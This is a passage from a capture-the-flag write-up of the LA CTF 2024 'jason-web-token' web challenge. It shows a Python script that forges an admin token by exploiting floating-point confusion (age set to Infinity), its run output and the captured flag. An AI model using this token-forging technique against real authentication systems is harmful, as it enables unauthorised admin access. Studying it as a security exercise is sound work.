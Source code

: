 ```python
        data = json.dumps(self.userinfo)
        signature = self.hash_(f'{data}:{saltedSecret}')

        print(f'[*] Salted secret: {saltedSecret}')
        print(f'[*] Signature: {signature}')
        print(f'[*] Raw JSON data: {data}')

        hexedData = data.encode().hex()
        token = f'{hexedData}.{signature}'
        return token

    def sendGetFlagRequest(self, token):
        header = {
            'Cookie': f'token={token}'
        }
        response = requests.get(f'{self.baseUrl}{self.DECODE_TOKEN_ROUTE}', headers=header)
        responseMsg = response.json()['msg'].strip()

        matchedFlag = re.search(self.FLAG_REGEX_FORMAT, responseMsg)
        if not matchedFlag:
            return None

        flag = matchedFlag.group(1)
        return flag

    def exploit(self):
        print('[*] Generating new forged token...')
        token = self.createForgedToken()
        print(f'[+] Token: {token}\n')

        flag = self.sendGetFlagRequest(token)
        if not flag:
            print(f'[-] The token didn\'t get forged...')

        print(f'[+] The token has been forged! Here\'s the flag:\n{flag}')

if __name__ == '__main__':
    baseUrl = 'https://jwt.chall.lac.tf'
    jwt = JasonWebToken(baseUrl)
    jwt.exploit()
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/jason-web-token)-[2024.02.20|14:45:51(HKT)]
└> python3 jwt_signature_generator.py
[*] Generating new forged token...
[*] Salted secret: inf
[*] Signature: 7c9f68b0bcb85fe6a85984e709fd84429754ea771c6e3c0af28c2f13702dfd36
[*] Raw JSON data: {"username": "givemeflag", "age": Infinity, "role": "admin", "timestamp": 1708411618}
[+] Token: 7b22757365726e616d65223a2022676976656d65666c6167222c2022616765223a20496e66696e6974792c2022726f6c65223a202261646d696e222c202274696d657374616d70223a20313730383431313631387d.7c9f68b0bcb85fe6a85984e709fd84429754ea771c6e3c0af28c2f13702dfd36

[+] The token has been forged! Here's the flag:
lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}
```

- **Flag: `lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}`**

## Conclusion

What we've learned:

1. Floating point confusion